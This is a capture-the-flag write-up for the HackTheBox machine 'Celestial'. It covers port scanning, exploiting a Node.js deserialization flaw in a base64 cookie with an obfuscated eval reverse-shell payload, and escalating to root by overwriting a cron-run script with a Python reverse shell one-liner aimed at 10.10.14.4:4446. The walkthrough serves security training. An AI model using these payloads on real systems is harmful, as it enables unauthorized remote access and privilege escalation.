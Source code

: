 # Recon

As usual we start with a port scan on the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.85 -T5
```

That only reveals an open port on 3000 running the Node.js Express Framework. 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/1.png">

# Enumeration

After browsing to the website we run into a 404. But after refreshing we get a different message, some sort of formula. BurpSuite shows that on the first visit a cookie is set and after revisiting this is passed as a parameter.

Removing the following from the get request resulted in an error. This tells us that the data appears to be unserialized. We also spot a username: ```sun```.
```
Upgrade-Insecure-Requests: 1
If-None-Match: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/2.png">

The cookie appears to be base64 encoded. After decoding we get the following result:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/3.png">

Changing the ```num``` has an effect on the formula. We can mess with the parameters to generate the same kind of error we got before.

# Initial Foothold
We can use nodejsshell.py to create a encoded NodeJS reverse shell. We'll first have to create a payload, serialize it, base64 encode it and finally send it as the cookie parameter. 

[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

First we'll run ```python nodejsshell.py [Listener IP] [Listener Port]``` to create the encoded shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/4.png">


Then we'll create an ```exploit.js``` file which we use to serialize the payload so that it matches the website's.
```
var y = { rce: function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,10>
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));

```

Running ```nodejs exploit.js``` will create our serialized payload.

I had a issue saying the node-serialize module could not be found. Running ```npm install``` solved this.

After these steps we finally base64 encode it so we can pass it as the cookie parameter. We make sure to have our listener ready before we send our request with BurpSuite. This will result in an error but at the same time provides us with a reverse shell as user ```sun```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/5.png">


# Privilege Escalation
First we'll upgrade the shell. We'll run ```which python``` to see if it has python installed.
We then run the following commands:
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
```

One thing we notice is that user ```sun``` is part of the admin group. We also spot a file called ```script.py``` in the home directory. One directory up we find ```output.txt``` which get's changed every 5 minutes. The content is the content from ```script.py```.

If this script is initiated by the root user we can try to alter the content of the file in order to give us a root shell.

We can use ```pspy``` to see what's exactly going on. Download it from [here](https://github.com/DominicBreuker/pspy). 

After a few minutes we see the following commands proving what we already thought:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/6.png">

Good news! Now we can use a oneliner php shell and save it as the script:
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > script.py
```

With our new listener ready on port 4446 we wait a few minutes for the script to run. As soon as it gets executed a root shell will pop up.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/7.png">
